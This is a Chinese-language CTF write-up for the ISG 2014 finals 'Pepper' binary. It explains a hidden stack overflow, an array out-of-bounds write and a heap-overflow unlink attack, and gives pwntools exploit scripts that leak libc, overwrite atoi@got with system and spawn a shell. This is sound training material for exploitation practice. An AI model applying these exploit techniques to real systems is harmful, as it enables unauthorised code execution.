


[Review] ISG 2014 Final Pepper
ISG 2014 决赛上的一道题目，捡起来练练手。
逆向分析
逆向一直是我的弱点，经验不足，过度依赖 F5，总体感觉还是汇编能力太弱了 ：（
我的 idb 文件在这里：点击下载
31337（0x08048F67） 栈溢出
Menu 中存在一隐藏选项，0x08048F67，实质是一个栈溢出的后门：

系统开启 ASLR，但编译时未开启 PIC 选项。首先需要泄露出 libc 地址：
#!/usr/bin/env python
# -*- coding:utf-8 -*-
from pwn import *
# context.log_level = "DEBUG"
conn = process("/home/vagrant/pepper")
# conn = remote("127.0.0.1", 2333)
elf = ELF("/home/vagrant/pepper")
libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")
def get_advice(advice):
conn.recvuntil("Your choice: ")
conn.sendline("31337")
conn.recvuntil("Leave your message: ")
conn.sendline(advice)
# leak libc base
puts_plt = elf.plt.get("puts")
get_advice_addr = 0x08048F67
atoi_got = elf.got.get("atoi")
log.info("puts@plt: {}".format(hex(puts_plt)))
log.info("get_advice_addr: {}".format(hex(get_advice_addr)))
log.info("atoi@got: {}".format(hex(atoi_got)))
get_advice("A" * 112 + pack(puts_plt) + pack(get_advice_addr) + pack(atoi_got))
conn.recvuntil("We got that. Thanks.\n")
libc_base = unpack(conn.recv(4)) - libc.symbols.get("atoi")
libc.address += libc_base
# libc_gets = libc.symbols.get("gets")
libc_system = libc.symbols.get("system")
log.success("libc base: {}".format(hex(libc_base)))
# log.success("libc gets: {}".format(hex(libc_gets)))
log.success("system@libc: {}".format(hex(libc_system)))
然后覆盖 ret 为 system 就可以了，这里利用了杨坤@Blue-Lotus 在《掘金 CTF》中提到的一个 TIP，直接在 libc.so 中查找 /bin/sh 字符串：
# exploit
conn.recvuntil("Leave your message: ")
conn.sendline("A" * 112 + pack(libc_system) + "AAAA" + pack(libc_base + 0x00160A24))
conn.recvline()
conn.interactive()
糖果师傅说比赛中选手很有可能修改掉这些字符串，所以还是自己输入靠谱些；）
EditRestaurant（0x08048C63） 数组越界
程序内多处存在数组越界的问题，在这个函数中可以通过伪造结构，利用数组越界做任意地址写：

# add a restaurant to fake
padding = "A" * 0x24
fake_restaurant = p32(0x1) + p32(0x1) + p32(pepper.got.get("atoi")) + "A" * 0x20 + p32(0x1) + p32(0x0804B0A0)
add_restaurant("xxoo", padding + fake_restaurant, 1, "xxoo", 1)
# information leak
show_details_of_restaurant(101)
io.recvuntil("Recommended Dish: ")
libc.address = u32(io.recv(4)) - libc.symbols.get("atoi")
log.success("libc base => {}".format(hex(libc.address)))
log.success("system addr => {}".format(hex(libc.symbols.get("system"))))
# set atoi@got to system@symbols
edit_restaurant(101, 1, pack(libc.symbols.get("system")))
# getshell
io.recvuntil("Your choice: ")
io.sendline("/bin/sh\x00")
io.recvuntil("Your choice: ")
io.interactive()
EditRestaurant（0x08048C63） 堆溢出
同样是这个函数中，在修改 Description 未进行长度校验，导致堆溢出。

利用方式是先申请 3 个 restaurant，通过修改 restaurant 0 的 Description 溢出 restaurant 1 和 restaurant 2 的 Description，伪造 chunk；删除 restaurant 2，程序去 free restaurant2’s description，进而 unlink 伪造的 chunk，double free；再次编辑 restaurant 1 可以修改 restaurant 的 Description Addr 至任意地址；再一次编辑时实现任意地址写。
# Alloc 3
for i in range(3):
add_restaurant("roadname", "road", i+1, "A"*100, i)
# overflow chunk 0
payload = "A" * 0x70
payload += p32(0) + p32(0x71) + p32(0x804b0d0) + p32(0x804b0d4) + "A" * (0x70 - 0x10 - 0x8)
payload += p32(0x68) + p32(0x70)
edit_restaurant(0, 1, payload)
# double free
delete_restaurant(2)
# set chunk1's desc addr to atoi@got
edit_restaurant(1, 1, "A" * 0xC + p32(0x804b048))
# edit atoi@got to system
edit_restaurant(1, 1, p32(0xf7e39b30))
# spawn /bin/sh
io.recvuntil("Your choice: ")
io.sendline("/bin/sh")
io.recvuntil("Your choice: ")
io.interactive()